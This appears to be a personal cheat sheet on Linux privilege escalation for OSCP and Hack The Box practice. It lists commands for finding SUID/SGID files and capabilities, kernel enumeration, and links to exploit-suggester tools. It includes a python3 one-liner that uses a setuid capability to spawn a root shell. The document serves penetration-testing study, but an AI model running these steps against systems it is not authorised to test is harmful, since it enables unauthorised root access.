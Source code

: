 # Linux Privesc

{% embed url="https://github.com/RajChowdhury240/OSCP-CheatSheet/blob/main/Linux%20-%20Privilege%20Escalation.md#systemd-timers" %}

incorrect path, scripts running as root, cronjobs, docker container, git server

there are some crazy techniques ippsec and tj the plugs, we gonna document those and any cool ones we do here

```
sudo -l
find / -perm -g=s -type f 2>/dev/null    # SGID
find / -perm -u=s -type f 2>/dev/null    # SUID

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID < full search  
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin < quicker   

find / perm /u=s -user "Username" 2>/dev/null  
```

#### Find SUID root files <a href="#find-suid-root-files" id="find-suid-root-files"></a>

```
find / -user root -perm -4000 -print  2>/dev/null
```

#### Find SGID root files: <a href="#find-sgid-root-files" id="find-sgid-root-files"></a>

```
find / -group root -perm -2000 -print 2>/dev/null
```

#### Find SUID and SGID files owned by anyone: <a href="#find-suid-and-sgid-files-owned-by-anyone" id="find-suid-and-sgid-files-owned-by-anyone"></a>

```
find / -perm -4000 -o -perm -2000 -print  2>/dev/null
```

### Capabilities

```
/usr/bin/getcap -r / 2>/dev/null        # list all 
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### Kernel <a href="#kernel" id="kernel"></a>

{% embed url="https://github.com/mzet-/linux-exploit-suggester" %}

{% embed url="https://github.com/jondonas/linux-exploit-suggester-2" %}

```
cat /proc/version
uname -a
uname -ar
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
```

{% embed url="https://guif.re/linuxeop" %}

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks?source=post_page-----16397895490f--------------------------------" %}
READDDD from HTB Usage
{% endembed %}

{% embed url="https://t0o0tz.com/posts/post0x0004/" %}
